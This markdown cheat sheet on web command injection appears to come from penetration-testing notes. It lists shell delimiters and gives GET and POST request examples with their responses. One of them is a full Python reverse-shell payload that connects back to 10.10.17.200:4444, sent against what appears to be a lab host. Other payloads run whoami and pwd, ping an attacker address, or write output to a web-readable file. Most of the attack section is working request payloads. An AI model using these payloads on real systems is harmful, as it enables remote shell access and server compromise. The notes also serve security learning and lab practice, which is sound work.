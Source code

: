 # Command Injection
## Website Request
TL;DR passing stuff to a system shell is bad
We can use a *Delimeter* to **break** out of the current line of logic to start our own

| Delimeter list |
|    :---:	|
|	&  		 |
|	;	  |
| 0x0a or \n|
| &&		|
| &#124;  |
| &#124;&#124;  |
| $(cmd)	|


Example list:
- [Get Parameter](#Get-Param)
- [Post Parameter](#Post-Param)
- [Get Parameter blind](#Get-Param-Blind)
- [Post Parameter blind](#Get-Param-Blind)

### <a name="Get-Param"></a> Get Parameter
Request
```
curl http://examplewebsite.com/bruh.php?param=23|whoami

curl http://examplewebsite.com/bruh.php?param=23;pwd
```
Response
```
Normal site content
root

Normal site content
/var/www/html
```
### <a name="Post-Param"></a> Post Parameter
Request
```
POST /logs.php HTTP/1.1
Host: previse.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://previse.htb
Connection: close
Referer: http://previse.htb/file_logs.php
Cookie: PHPSESSID=047geh7rnvgq04s58ts0j2101n
Upgrade-Insecure-Requests: 1

delim=comma;python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.17.200",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


POST /help.php HTTP/1.1
Host: down.bad
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://down.bad
Connection: close
Referer: http://down.bad/login.php
Cookie: PHPSESSID=047geh7rnvgq04s58ts0j2101n
Upgrade-Insecure-Requests: 1

user=dave|whoami
```
Response
```
Expected Response
Reverse Shell connection

Expected Response
www-data
```
### <a name="Get-Param-Blind"></a> Get Parameter(blind)
Request
```
http://vulnerable-website/endpoint?parameter=x||ping+-c+10+attackerIP||

https://vulnerable-website/endpoint?parameter=||whoami>/var/www/images/output.txt||
```
Response
```
Expected Response
10 pings from website

Expected Response
whoami written to /var/www/images/output.txt
which is viewable from 
```
### <a name="Post-Param-Blind"></a> Post Parameter(blind)
Same methods for get param blind but in a post request
